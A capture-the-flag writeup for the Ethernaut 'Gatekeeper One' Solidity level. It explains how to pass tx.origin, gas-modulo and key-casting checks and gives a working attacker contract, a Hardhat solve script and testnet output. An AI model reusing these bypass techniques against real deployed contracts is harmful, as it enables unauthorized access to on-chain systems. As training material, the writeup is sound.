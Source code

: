 ```yaml
---
title: Ethernaut #13 Gatekeeper One
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper One challenge writeup
---
```


## Gatekeeper One

### Challenge

Make it past the gatekeeper and register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from the Telephone and Token levels.
* You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is rather simple. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge. The only thing that is not trivial is how to get the `gasleft` to be a multiple of `8191`.

### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `gas` needs to be estimated such that it has a remainder of `8191` when `gasleft()` is reached. Finally the `_gateKey` needs to have some non-zero value for the 4 MSB, then two zeros and then the last two bytes of the `tx.origin`.

* Create a contract that:
  * calls the `GatekeeperOne` `enter` function
  * has a specific `gas` associated with the `enter` function
* Generate the `_gateKey` by:
  * Using `0x00000001` as the MSB
  * Then `0x0000` as the next two bytes
  * Finally the last two bytes of `tx.origin`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperOne.sol';

contract GatekeeperOneSolve {

    constructor() public {}
    
    function enter (address payable _gatekeeperOneAddress, bytes8 _gateKey) public payable {
        GatekeeperOne gatekeeperOneContrtact = GatekeeperOne(_gatekeeperOneAddress);
        gatekeeperOneContrtact.enter{gas: 868500}(_gateKey);
    }

}
```

In order to deduce the gas amount I used remix, debuged the contract execution in the remix vm, and checked what the `gas` opcode pushed onto the stack. I then found how much i needed to add (or subtract) in order for that value to be a multiple of 8191 and I added it to the `gas` I provided. I then had to reduce the value a bit when executing for the rinkeby network, because I set a the `gas` lower in my `hardhat.config.js`.

#### gatekeeper-one-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/gatekeeper-one-solve.js --network rinkeby
Initial entrant: 0x0000000000000000000000000000000000000000
0x000000010000276d
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Well done! Next, try your hand with the second gatekeeper...
